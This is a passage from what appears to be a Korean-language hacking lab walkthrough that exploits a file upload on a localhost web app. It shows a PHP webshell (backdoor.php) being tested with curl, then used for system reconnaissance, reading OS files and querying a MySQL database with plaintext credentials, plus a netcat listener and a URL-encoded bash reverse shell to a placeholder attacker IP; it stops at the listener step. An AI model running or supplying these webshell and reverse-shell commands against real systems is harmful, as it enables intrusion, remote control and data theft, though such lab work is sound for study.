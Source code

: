 ```
[*] Test command:
    curl 'http://localhost:9000/uploads/backdoor.php?cmd=id'

[*] Testing webshell...
[+] ✅ Webshell is working!
[+] Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)

[*] Next steps:
    1. Start listener: nc -lvnp 4444
    2. Trigger reverse shell:
       curl 'http://localhost:9000/uploads/backdoor.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/YOUR_IP/4444+0%3E%261%27'
```

### Step 4: 웹쉘 검증

```bash
# 명령 실행 테스트
curl 'http://localhost:9000/uploads/backdoor.php?cmd=whoami'
# 출력: www-data

curl 'http://localhost:9000/uploads/backdoor.php?cmd=id'
# 출력: uid=33(www-data) gid=33(www-data) groups=33(www-data)

curl 'http://localhost:9000/uploads/backdoor.php?cmd=pwd'
# 출력: /var/www/html/uploads

curl 'http://localhost:9000/uploads/backdoor.php?cmd=ls+-la+/var/www/html'
# 출력: 전체 디렉토리 목록

# 시스템 정보 수집
curl 'http://localhost:9000/uploads/backdoor.php?cmd=uname+-a'
curl 'http://localhost:9000/uploads/backdoor.php?cmd=cat+/etc/os-release'

# DB 접근 테스트
curl 'http://localhost:9000/uploads/backdoor.php?cmd=mysql+-h+db+-uadmin+-ppassword+-e+"SHOW+DATABASES;"'
```

### Step 5: 리버스쉘 획득

#### 5.1 WSL IP 확인 (Windows 환경)

```bash
# WSL 네트워크 IP 확인
ip addr show eth0 | grep "inet " | awk '{print $2}' | cut -d/ -f1

# 예: 172.19.0.1
```

#### 5.2 리스너 시작
